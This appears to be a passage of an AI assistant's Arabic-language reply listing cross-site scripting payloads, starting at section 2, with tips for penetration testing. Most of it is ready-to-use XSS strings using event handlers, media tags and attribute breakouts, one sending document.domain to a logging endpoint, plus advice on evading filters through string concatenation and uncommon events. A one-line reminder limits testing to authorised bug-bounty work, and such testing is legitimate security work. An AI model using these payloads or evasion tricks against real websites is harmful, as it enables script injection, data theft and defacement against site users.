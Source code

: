 2. أحداث تفاعلية:
- <div onclick=alert('XSS')>اضغط هنا</div>: يُنفذ التنبيه عند النقر.
- <div onmouseover=alert(1)>مرر هنا</div>: يُنفذ التنبيه عند تمرير المؤشر.
- <input autofocus onfocus=alert('XSS')>: يُنفذ التنبيه عند تركيز الحقل.
- <button onclick=alert(1)>اضغط</button>: يُنفذ التنبيه عند النقر على الزر.
- <a href="#" onclick=alert('XSS')>اضغط هنا</a>: يُنفذ التنبيه عند النقر على الرابط.
- <div oncontextmenu=alert(1)>انقر بزر الماوس الأيمن</div>: يُنفذ التنبيه عند النقر الأيمن.
- <input onkeypress=alert('XSS')>: يُنفذ التنبيه عند الضغط على مفتاح.
- <div onwheel=alert(1)>قم بالتمرير</div>: يُنفذ التنبيه عند التمرير بالماوس.

3. أحداث الوسائط:
- <video onplay=alert('XSS')><source src=x></video>: يُنفذ التنبيه عند تشغيل الفيديو.
- <video onloadeddata=alert(1)><source src=x></video>: يُنفذ التنبيه عند تحميل بيانات الفيديو.
- <audio onloadedmetadata=alert('XSS')><source src=x></audio>: يُنفذ التنبيه عند تحميل بيانات الصوت الوصفية.
- <video onended=alert(1)><source src=x></video>: يُنفذ التنبيه عند انتهاء الفيديو.
- <video onpause=alert('XSS')><source src=x></video>: يُنفذ التنبيه عند إيقاف الفيديو.

4. حقن بدون تنبيهات:
- <svg onload=console.log('XSS')>: يسجل "XSS" عند تحميل SVG.
- <video poster=x onerror=console.error('XSS: ' + document.domain)>: يسجل خطأ مع النطاق.
- <div onclick=document.title='XSS'>اضغط هنا</div>: يغير عنوان الصفحة عند النقر.
- <svg onload=document.body.style.background='red'>: يغير لون الخلفية إلى الأحمر.
- <video poster=x onerror=new Image().src='http://localhost/log?c='+document.domain>: يرسل النطاق إلى خادم.

5. اختبار سياقات الإدخال:
- "><svg onload=alert('XSS')>: يخرج من سمة HTML ويُنفذ عند تحميل SVG.
- onload=alert(1): يُنفذ كسمة حدث.
- " autofocus onfocus=alert(1)//: يخرج من قيمة إدخال ويُنفذ عند التركيز.
- <svg><script>alert('XSS')</script></svg>: يُنفذ الشيفرة داخل SVG.



---

**نصائح إضافية**:
- **اختبار السياقات**: جرب الحقن في سياقات مختلفة (مثل `href`، سمات النماذج، أو تعليقات المستخدم).
- **دمج الحقن**: ادمج وسوم HTML5 مع حقن أخرى (مثل `<svg><script>('al'+'ert')('XSS')</script></svg>`) لتجاوز فلاتر متقدمة.
- **الأحداث غير الشائعة**: اختبر أحداثًا نادرة (مثل `onpointerover`، `onanimationend`) لتجنب فلاتر تركز على `onload` أو `onerror`.
- **التفاعل**: للأحداث التفاعلية، تأكد من اختبار النقر أو التمرير لتشغيل الحقن.
- **الأدوات**: استخدم Burp Suite لاعتراض الطلبات وأدوات المطورين (F12) لمراقبة وحدة التحكم والـ DOM.
- **السلامة**: اختبر فقط بإذن صريح (مثل برامج مكافآت الأخطاء).

إذا كنت تريد شرح خطوة أخرى بنفس الأسلوب (مثل "JavaScript URI Payloads" أو خطوة أخرى)، أو التركيز على سياق معين (مثل XSS القائم على DOM)، أخبرني وسأقدم ردًا مخصصًا!